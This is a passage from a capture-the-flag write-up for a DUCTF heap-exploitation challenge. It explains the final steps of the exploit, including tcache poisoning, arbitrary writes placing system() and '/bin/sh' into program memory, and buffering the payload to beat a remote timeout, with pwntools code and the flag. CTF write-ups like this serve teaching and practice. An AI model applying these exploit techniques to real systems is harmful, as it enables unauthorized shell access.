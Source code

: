 To fix this, I sold the sheep left at index 19, overwrote its `fd` pointer with a pointer to an empty area on the heap using the same strategy as before, and allocated it again to get that pointer into the tcache head instead. Then, doing one more `buy` operation will set `game->num_sheep` to 8 and trigger `system("/bin/sh")`.


### 5. Final optimization

This exploit worked locally, but timed out on the remote because of the large number of interactions required with the server (since all arb read/write operations are bit-by-bit). To fix this, I realized that after getting the libc and binary base leaks, the rest of the payload is deterministic and doesn't really depend on the server responses, so I added a "buffered" mode to the interaction functions I used to write the payload into `pbuf` instead of doing `p.sendlineafter` every time. After the whole payload is complete, I just did `p.send(pbuf)`. This sped up the interactions and didn't time out.

```python
arb_write(elf.sym["abilities"] + 0x10, libc.sym["system"], buffer=True)	# write system() into 'abilities[2]'
arb_write(heap_base + 0x4e0, u64(b"/bin/sh\0"), buffer=True)	# write "/bin/sh" into a sheep chunk that now has ability 2
# game->num_sheep is less than the index of the sheep at heap_base+0x4e0, so system("/bin/sh") won't yet be triggered

# change tcache head value to prevent next allocations from overwriting "/bin/sh" string
sell(19, buffer=True)
bitwise_build(TCACHE_IDX, (heap_base + 0x1000) ^ (heap_base >> 12), buffer=True)

# buy new sheep to increase game->num_sheep and trigger the sheep with ability #2 (now system("/bin/sh"))
buy(0, buffer=True)
buy(0, buffer=True)

p.send(pbuf)	# send buffered payload

p.interactive()
```

Flag: `DUCTF{y0u_ar3_the_gre4t3st_sheph3rd!!}`

Full exploit code can be seen in the `exploit.py` file.
